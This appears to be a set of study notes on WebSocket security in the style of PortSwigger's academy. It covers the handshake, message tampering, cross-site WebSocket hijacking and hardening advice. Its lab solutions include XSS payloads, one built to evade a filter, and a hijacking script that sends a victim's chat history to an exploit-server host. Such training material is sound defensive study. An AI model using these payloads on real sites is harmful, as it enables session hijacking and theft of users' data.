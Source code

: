 ## What are WebSockets?

WebSockets are a bi-directional, full duplex communications protocol initiated over HTTP. They are commonly used in modern web applications for streaming data and other asynchronous traffic.
### What is the difference between HTTP and WebSockets?

Most communication between web browsers and web sites uses HTTP. With HTTP, the client sends a request and the server returns a response. Typically, the response occurs immediately, and the transaction is complete. Even if the network connection stays open, this will be used for a separate transaction of a request and a response.

Some modern web sites use WebSockets. WebSocket connections are initiated over HTTP and are typically long-lived. Messages can be sent in either direction at any time and are not transactional in nature. The connection will normally stay open and idle until either the client or the server is ready to send a message.

WebSockets are particularly useful in situations where low-latency or server-initiated messages are required, such as real-time feeds of financial data. 
### How are WebSocket connections established?

WebSocket connections are normally created using client-side JavaScript like the following:

`var ws = new WebSocket("wss://normal-website.com/chat");`


>The wss protocol establishes a WebSocket over an encrypted TLS connection, while the ws protocol uses an unencrypted connection.

To establish the connection, the browser and server perform a WebSocket handshake over HTTP. The browser issues a WebSocket handshake request like the following:
```
GET /chat HTTP/1.1
Host: normal-website.com
Sec-WebSocket-Version: 13
Sec-WebSocket-Key: wDqumtseNBJdhkihL6PW7w==
Connection: keep-alive, Upgrade
Cookie: session=KOsEJNuflw4Rd9BDNrVmvwBF9rEijeE2
Upgrade: websocket
```
If the server accepts the connection, it returns a WebSocket handshake response like the following:
```
HTTP/1.1 101 Switching Protocols
Connection: Upgrade
Upgrade: websocket
Sec-WebSocket-Accept: 0FFP+2nmNIf/h+4BP36k9uzrYGk=
```
At this point, the network connection remains open and can be used to send WebSocket messages in either direction.
Note

Several features of the WebSocket handshake messages are worth noting:

-    The `Connection` and `Upgrade` headers in the request and response indicate that this is a WebSocket handshake.
-    The `Sec-WebSocket-Version` request header specifies the WebSocket protocol version that the client wishes to use. This is typically 13.
-    The `Sec-WebSocket-Key` request header contains a Base64-encoded random value, which should be randomly generated in each handshake request.
-    The `Sec-WebSocket-Accept` response header contains a hash of the value submitted in the Sec-WebSocket-Key request header, concatenated with a specific string defined in the protocol specification. This is done to prevent misleading responses resulting from misconfigured servers or caching proxies.

### What do WebSocket messages look like?

Once a WebSocket connection has been established, messages can be sent asynchronously in either direction by the client or server.

A simple message could be sent from the browser using client-side JavaScript like the following:
`ws.send("Peter Wiener");`

In principle, WebSocket messages can contain any content or data format. In modern applications, it is common for JSON to be used to send structured data within WebSocket messages.

For example, a chat-bot application using WebSockets might send a message like the following:
`{"user":"Hal Pline","content":"I wanted to be a Playstation growing up, not a device to answer your inane questions"}`

## Manipulating WebSocket traffic

The majority of input-based vulnerabilities affecting WebSockets can be found and exploited by tampering with the contents of WebSocket messages.

For example, suppose a chat application uses WebSockets to send chat messages between the browser and the server. When a user types a chat message, a WebSocket message like the following is sent to the server:
`{"message":"Hello Carlos"}`

The contents of the message are transmitted (again via WebSockets) to another chat user, and rendered in the user's browser as follows:
`<td>Hello Carlos</td>`

In this situation, provided no other input processing or defenses are in play, an attacker can perform a proof-of-concept XSS attack by submitting the following WebSocket message:
`{"message":"<img src=1 onerror='alert(1)'>"}`

### Lab: Manipulating WebSocket messages to exploit vulnerabilities

To solve the lab, use a WebSocket message to trigger an `alert()` popup in the support agent's browser. 



Edit the intercepted message to contain the following payload:
`<img src=1 onerror='alert(1)'>`

## Manipulating the WebSocket handshake to exploit vulnerabilities

Some WebSockets vulnerabilities can only be found and exploited by manipulating the WebSocket handshake. These vulnerabilities tend to involve design flaws, such as:

-    Misplaced trust in HTTP headers to perform security decisions, such as the X-Forwarded-For header.
-    Flaws in session handling mechanisms, since the session context in which WebSocket messages are processed is generally determined by the session context of the handshake message.
-    Attack surface introduced by custom HTTP headers used by the application.

### Lab: Manipulating the WebSocket handshake to exploit vulnerabilities

It has an aggressive but flawed XSS filter.

To solve the lab, use a WebSocket message to trigger an alert() popup in the support agent's browser. 

Payload: ``<img src=1 oNeRrOr=alert`1`>``

## Using cross-site WebSockets to exploit vulnerabilities


### Cross-site WebSocket hijacking?

Cross-site WebSocket hijacking (also known as cross-origin WebSocket hijacking) involves a cross-site request forgery (CSRF) vulnerability on a WebSocket handshake. It arises when the WebSocket handshake request relies solely on HTTP cookies for session handling and does not contain any CSRF tokens or other unpredictable values.

An attacker can create a malicious web page on their own domain which establishes a cross-site WebSocket connection to the vulnerable application. The application will handle the connection in the context of the victim user's session with the application.

The attacker's page can then send arbitrary messages to the server via the connection and read the contents of messages that are received back from the server. This means that, unlike regular CSRF, the attacker gains two-way interaction with the compromised application.

For example, the following WebSocket handshake request is probably vulnerable to CSRF, because the only session token is transmitted in a cookie:
```
GET /chat HTTP/1.1
Host: normal-website.com
Sec-WebSocket-Version: 13
Sec-WebSocket-Key: wDqumtseNBJdhkihL6PW7w==
Connection: keep-alive, Upgrade
Cookie: session=KOsEJNuflw4Rd9BDNrVmvwBF9rEijeE2
Upgrade: websocket
```
ll
>The Sec-WebSocket-Key header contains a random value to prevent errors from caching proxies, and is not used for authentication or session handling purposes.
### Lab: Cross-site WebSocket hijacking

To solve the lab, use the exploit server to host an HTML/JavaScript payload that uses a cross-site WebSocket hijacking attack to exfiltrate the victim's chat history, then use this gain access to their account. 

Payload:
```html
<script>
    var ws = new WebSocket(
    "wss://0a8b00bf040fb76b82d8152000790054.web-security-academy.net/chat"
  );
  
  ws.onopen = function () {
    ws.send("READY");
  };
  
  ws.onmessage = function (event) {
    fetch(
      "https://exploit-0a050000047fb76182bb14d501740069.exploit-server.net/exploit?message=" +
        btoa(event.data)
    );
  };
</script>
```
## 
How to secure a WebSocket connection

To minimize the risk of security vulnerabilities arising with WebSockets, use the following guidelines:

-   Use the wss:// protocol (WebSockets over TLS).
-    Hard code the URL of the WebSockets endpoint, and certainly don't incorporate user-controllable data into this URL.
-    Protect the WebSocket handshake message against CSRF, to avoid cross-site WebSockets hijacking vulnerabilities.
-    Treat data received via the WebSocket as untrusted in both directions. Handle data safely on both the server and client ends, to prevent input-based vulnerabilities such as SQL injection and cross-site scripting.


